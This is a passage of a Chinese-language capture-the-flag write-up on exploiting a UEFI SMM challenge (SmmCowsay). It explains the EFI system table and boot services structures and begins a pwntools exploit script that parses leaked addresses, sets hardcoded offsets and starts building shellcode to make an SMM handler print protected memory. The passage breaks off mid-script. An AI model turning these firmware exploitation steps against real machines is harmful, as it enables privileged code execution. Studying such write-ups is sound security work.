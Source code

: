 

而在 `UefiMain()` 的開頭有給了 system table 的位址，system table 實際功能可以參考 spec，對應 edk2 的結構則在 https://github.com/tianocore/edk2/blob/master/MdePkg/Include/Uefi/UefiSpec.h#L1976 ：

```c
typedef struct {
  ///
  /// The table header for the EFI System Table.
  ///
  EFI_TABLE_HEADER                   Hdr;
  ...
} EFI_SYSTEM_TABLE;
```

```c
typedef struct {
  ///
  /// The table header for the EFI Boot Services Table.
  ///
  EFI_TABLE_HEADER                              Hdr;

} EFI_BOOT_SERVICES;
```



由於 `SmmCowsayHandler()` 會在 SMM 底下輸出傳入位址的字串，因此如果我們能參考 Binexec `UefiMain()` 中的程式碼，執行相同的程式流程，這樣就可以印出 0x44440000。第一步先模擬：

```
+  Status = gBS->LocateProtocol(^M
+    &gEfiSmmCommunicationProtocolGuid,^M
+    NULL,^M
+    (VOID **)&mSmmCommunication^M
+    );^M
```



exploit:

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'

r = process('./run.sh')

r.recvuntil('SystemTable: ')
addr_system_table = int(r.recvline()[:-1], 16)
r.recvuntil('your code: ')
addr_code_buf = int(r.recvline()[:-1], 16)
info(f"addr_system_table: {hex(addr_system_table)}")
info(f"addr_code_buf: {hex(addr_code_buf)}")

# 因為是 UTF16 (CHAR16*)，所以需要印兩次
addr_region_4 = 0x44440000
addr_region_4_next = 0x44440001

offset_BS = 0x60
addr_BS = 0x6FC0DC0
offset_LocateFunc = 0x140
offset_AllocPool = 0x40 # (PoolType, Size, *Buffer)
addr_LocateFunc = 0x6F9FAA3
enum_EfiRuntimeServicesData = 6

sc = asm(
```